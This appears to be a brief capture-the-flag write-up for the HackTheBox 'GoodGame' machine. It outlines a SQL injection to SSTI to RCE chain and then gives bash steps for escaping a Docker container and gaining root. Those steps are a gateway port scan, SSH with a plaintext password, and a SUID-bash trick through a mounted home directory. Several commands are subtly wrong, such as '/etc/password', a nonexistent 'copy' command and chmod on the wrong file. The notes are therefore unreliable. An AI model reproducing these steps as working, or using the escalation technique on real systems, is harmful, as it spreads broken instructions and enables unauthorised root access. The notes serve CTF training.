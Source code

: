 # Docker Escapes and Priviledge Escalation - HackTheBox University CTF "GoodGame"

**Description**: Docker escapes via *ssh*, priv escala with *mounted directory*

**RCE**: vulnerable to sql injection -> using sqlmap--> logged in as admin --> vulnerable SSTI -> using subprocess --> *RCE*

## Docker Escapes
```bash
ip a s
#  eth0: 172.19.0.2/16

for PORT in {1..1000}; do timeout 1s bash -c "/dev/tcp/172.19.0.1/$PORT" > /dev/null; done # 172.19.0.1: docker gateway
# Port 22 SSH(come through, not connection refuse)

# SSH require interactive shell --> stabelize it
# with the password we got before, ssh to host docker machine.
ssh augustus@172.19.0.1
# Password: supperadministratorpassword

# We're now free from container
```
## Priviledge Escalation
**Still in the docker container**:
```bash
cat /etc/password
# Don't see augustus user
# => Still have augustus home directory => This home directory is being mounted into this docker container

# Step to priv escala
# Step 1: Back to host docker machine
ssh augustus@172.19.0.1
# Password: supperadministratorpassword

# Step 2: Copy /bin/bash to augustus home directory(mounted to docker container)
copy /bin/bash /home/augustus

# Step 3: Back to docker container
exit

# Step 4: Because user in the container is root, SUID for /bin/bash
chmod +s /bin/bash

# Step 5: Back to host machine and run it
ssh augustus@172.19.0.1 # ....
/bin/bash
whoami # root
```
